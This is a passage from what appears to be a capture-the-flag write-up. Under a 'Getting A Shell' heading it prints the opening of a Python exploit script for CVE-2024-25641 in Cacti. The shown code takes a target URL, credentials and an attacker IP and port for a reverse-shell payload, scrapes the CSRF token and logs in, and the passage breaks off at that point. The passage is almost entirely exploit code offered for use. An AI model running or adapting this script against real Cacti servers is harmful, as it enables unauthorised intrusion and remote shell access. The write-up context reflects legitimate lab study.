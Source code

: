![](https://i.postimg.cc/c4zkk2DR/cracked-password.png)

#### Getting A Shell 

* Taking `cacti`'s vulnerability to advantage, I crafted an exploit to directly pop up a shell 
```python
import os
import requests
import base64
import gzip
from bs4 import BeautifulSoup
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import padding, rsa
from cryptography.hazmat.primitives import serialization
import argparse
import random
import string
import logging

logging.basicConfig(filename='exploit.log', level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
print('''\nCreated by: Trevohack
    \tAutomate the process of exploiting the CVE-2024-25641\n\n''')
parser = argparse.ArgumentParser(
    epilog='''Examples:
            ./exploit.py http://localhost/cacti admin password
            ./exploit.py -p 10.0.0.10 -l 1234 http://localhost/cacti admin password''',
    formatter_class=argparse.RawTextHelpFormatter
)
parser.add_argument('URL', type=str, help='The target Cacti URL')
parser.add_argument('username', type=str, help='Login username')
parser.add_argument('password', type=str, help='Login password')
parser.add_argument('-p', '--payload_ip', type=str, help='IP address for the payload', default='10.10.16.33')
parser.add_argument('-l', '--payload_port', type=str, help='Port for the payload', default='9999')
args = parser.parse_args()

URL = args.URL
username = args.username
password = args.password
payload_ip = args.payload_ip
payload_port = args.payload_port

print('[*] Attempting to log in...')
logging.info("Attempting to log in to %s with username %s", URL, username)

login_path = '/index.php'
s = requests.Session()
r = s.get(URL)

soup = BeautifulSoup(r.text, 'html.parser')
html_parser = soup.find('input', {'name': '__csrf_magic'})
csrf = html_parser.get('value')

data = {
    '__csrf_magic': csrf,
    'action': 'login',
    'login_username': username,
    'login_password': password,
    'remember_me': 'on'
}

r = s.post(URL + login_path, data=data)

```